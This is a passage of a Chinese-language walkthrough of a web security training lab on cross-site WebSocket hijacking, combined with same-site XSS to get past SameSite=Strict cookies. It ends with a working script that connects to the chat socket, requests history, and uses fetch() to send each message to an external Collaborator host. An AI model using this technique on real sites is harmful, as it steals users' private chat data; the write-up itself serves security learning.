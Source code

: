 （2）由/chat响应HTTP头中确认通信方式为Websocket全双工通信，由/chat请求包得知不可预测参数只有cookie-session

![image-20240909211335752](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202409092113862.png)

![image-20240909211646424](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202409092116507.png)

（3）检查Websocket通信记录，用户在进入Live chat时客户端会给服务端发送数据包，内容为：READY，服务端由此响应用户历史聊天记录。所以，如果/chat页面能实现CSRF攻击的话就可以窃取到其他用户的历史聊天记录

![image-20240909211453786](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202409092114875.png)

（4）进入开发者模式检查Samesite属性为strict，当Samesite属性为strict时，只有同源站点请求中浏览器才会携带Cookie。所以需要寻找可用的重定向页面或者同域站点进行CSRF攻击

![image-20240909214422055](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202409092144153.png)

（5）回到/home目录下，修改Burpsuite配置，将HTTP请求流量中隐藏的image，js，svg数据包全部显示。Ctral+F5刷新浏览器缓存，在shop.svg响应包中发现同域站点

![image-20240909220105569](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202409092201643.png)

![image-20240909220146943](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202409092201039.png)

（5）访问同域站点，提交测试数据，内容回显，随后进行XSS弹窗测试，成功实现弹窗。同域站点存在XSS弹窗攻击，如果将更新用户邮箱的操作请求嵌入XSS攻击代码中，当用户触发XSS弹窗时客户端向服务端发起更新邮箱请求，而此时客户端的操作请求来自同域站点，浏览器将会认为该请求是合法请求携带cookie对服务端进行请求

![image-20240909220312342](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202409092203407.png)

![image-20240909220328283](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202409092203341.png)

![image-20240909220428297](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202409092204363.png)

![image-20240909220431670](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202409092204733.png)

（6）首先制作更新邮箱请求表单：将lab地址协议修改为wss协议，并将Burpsuite中Collaborator服务器地址填入POC中的fetch处

更新邮箱请求表单实现的功能为：用户浏览器向服务端发起Websocket通信连接请求，当Websocket通信连接完成后向服务端请

求用户历史聊天记录，同时将服务端响应的数据包转发至Burpsuite开启的Collaborator服务器中

```py
<script>
    var ws = new WebSocket('wss://0af20052038cf1ed81658977008e0071.web-security-academy.net/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://p5vx5w7gahns2nfkb7kwwomaf1ls9oxd.oastify.com', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```

![image-20240909221105065](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202409092211159.png)
